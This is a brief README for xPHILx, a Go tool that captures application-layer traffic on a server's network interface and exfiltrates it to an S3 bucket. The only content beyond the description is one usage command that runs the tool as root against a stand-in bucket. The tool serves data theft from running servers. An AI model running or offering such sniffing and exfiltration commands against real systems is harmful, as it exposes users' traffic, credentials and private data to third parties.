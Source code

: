 # xPHILx

![xPHILx](xphilx.jpg | width=375)

## Introduction

Exfiltrate layer 7 payloads to S3 from a running server

## Contents

- [Usage](#usage)
- [Credits](#credits)

## Usage

```bash
sudo go run main.go -i lo0 -b s3://fake-bucket/
```

## Credits

- Photo from @cctildef on IG
- A lot of copy pasta from: https://github.com/google/gopacket/blob/master/examples/httpassembly/main.go
